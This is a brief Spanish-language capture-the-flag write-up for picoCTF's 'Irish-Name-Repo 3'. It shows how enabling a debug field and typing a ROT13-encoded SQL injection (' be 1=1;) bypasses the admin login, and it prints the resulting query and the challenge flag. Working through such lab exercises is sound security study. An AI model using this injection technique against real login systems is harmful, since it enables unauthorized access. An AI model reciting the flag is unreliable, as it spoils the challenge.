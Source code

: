  # Irish-Name-Repo 3

## Objetivo 
Descripción:
Hay un sitio web seguro en `https://jupiter.challenges.picoctf.org/problem/40742/`( [enlace](https://jupiter.challenges.picoctf.org/problem/40742/) ) o http://jupiter.challenges.picoctf.org:40742. ¡Intenta ver si puedes iniciar sesión como administrador!

Sugerencias:
Parece que la contraseña está encriptada.

## Solución
lo primero que tenemos que hacer es en el nodo debug
despues le damos click al botton de loging
y cambiamos el debuger de 0 a 1 
despues de esto observamos que siempre que ponemos algo nos lo encripta 
cuando ponemos or nos pone be pues solo lo ponemos como be y nos dara la contraseña
``` shell
password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```

## Notas

## Referencias
[SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)